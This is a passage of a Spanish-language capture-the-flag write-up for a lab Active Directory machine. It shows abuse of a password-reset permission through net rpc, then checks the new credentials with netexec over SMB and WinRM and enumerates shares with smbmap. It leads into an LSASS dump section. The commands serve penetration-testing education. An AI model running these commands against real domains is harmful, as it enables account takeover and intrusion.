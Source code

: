 Comprobamos que el usuario dispone de permisos para cambiar la contraseña del usuario en cuestión (audit2020@blackfire.local).

<figure><img src="../../../.gitbook/assets/1710_vmware_nm9BNJulrY.png" alt=""><figcaption></figcaption></figure>

Debido que no disponemos de acceso a la máquina para realizarlo en el equipo Windows, lo podemos intentar realizar a través de **net rpc** para realizar el cambio de contraseña.

Realizamos el cambio y verificamos que se ha modificado correctamente las credenciales del usuario. Aún no podemos acceder al WinRM, ya que este usuario tampoco tiene permisos.

{% code overflow="wrap" %}
```bash
net rpc password "audit2020" "Gzzcoo123" -U 'BLACKFIELD.local/support%#00^BlackKnight' -S 10.10.10.192

netexec smb 10.10.10.192 -u 'audit2020' -p 'Gzzcoo123'

netexec winrm 10.10.10.192 -u 'audit2020' -p 'Gzzcoo123'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/1711_vmware_mLQk24sq00.png" alt=""><figcaption></figcaption></figure>

## Initial Access

### LSASS Dump Analysis (Pypykatz)

Probando de enumerar el SMB con estas nuevas credenciales, comprobamos que este usuario dispone de acceso para el recurso compartido "forensic".

```bash
smbmap -H 10.10.10.192 --no-banner -u audit2020 -p 'Gzzcoo123'
```
